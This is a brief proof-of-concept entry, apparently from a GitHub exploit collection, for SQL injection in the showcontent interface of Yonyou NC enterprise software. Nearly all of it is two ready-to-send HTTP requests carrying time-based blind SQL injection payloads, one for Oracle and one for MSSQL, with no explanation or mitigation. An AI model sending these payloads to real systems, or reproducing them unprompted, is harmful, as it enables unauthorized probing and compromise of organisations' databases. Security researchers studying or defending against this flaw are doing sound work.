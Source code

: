 # yonyounc_showcontent_sqli

from:  https://github.com/wy876/POC/blob/main/%E7%94%A8%E5%8F%8BNC-showcontent%E6%8E%A5%E5%8F%A3%E5%AD%98%E5%9C%A8sql%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E.md
2024.4.22 @2

```
orale:
GET /ebvp/infopub/showcontent?id=1'%20AND%203983=DBMS_PIPE.RECEIVE_MESSAGE(CHR(70)||CHR(76)||CHR(108)||CHR(101),9)%20AND%20'Mgtn'='Mgtn HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Accept-Encoding: identity
Connection: close
Content-Type: text/xml; charset=utf-8
SL-CE-SUID: 31



mssql:
GET /ebvp/infopub/showcontent?id=1'%20waitfor%20delay%20'0:0:6
Host:
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36

```
